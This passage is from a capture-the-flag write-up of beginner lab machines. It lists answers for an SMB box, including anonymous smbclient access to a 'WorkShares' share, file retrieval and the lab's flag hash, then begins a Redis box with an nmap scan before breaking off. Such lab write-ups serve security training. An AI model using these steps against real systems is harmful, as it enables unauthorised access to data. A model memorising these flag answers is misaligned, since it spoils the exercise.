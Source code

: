 6、What is the name of the share we are able to access in the end with a blank password?

```
WorkShares
```

7、What is the command we can use within the SMB shell to download the files we find?

```
get
```

8、Submit root flag

```bash
└─# smbclient  //10.129.139.233/WorkShares 

smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 04:38:03 2021
  ..                                  D        0  Thu Jun  3 04:38:03 2021
  flag.txt                            A       32  Mon Mar 29 05:26:57 2021
get 
		5114111 blocks of size 4096. 1732007 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0.0 KiloBytes/sec) (average 0.0 KiloBytes/sec)
```

```bash
└─# cat flag.txt     
5f61c10dffbc77a704d76016a22f1664  
```



# Redeemer



1、Which TCP port is open on the machine?

```bash
└─# nmap -p6379 10.129.83.129        
Starting Nmap 7.93 ( https://nmap.org ) at 2023-09-18 02:53 EDT
Nmap scan report for 10.129.83.129 (10.129.83.129)
Host is up (0.89s latency).

PORT     STATE SERVICE
6379/tcp open  redis
```

2、Which service is running on the port that is open on the machine?

```
redis
```

3、What type of database is Redis? Choose from the following options: (i) In-memory Database, (ii) Traditional Database
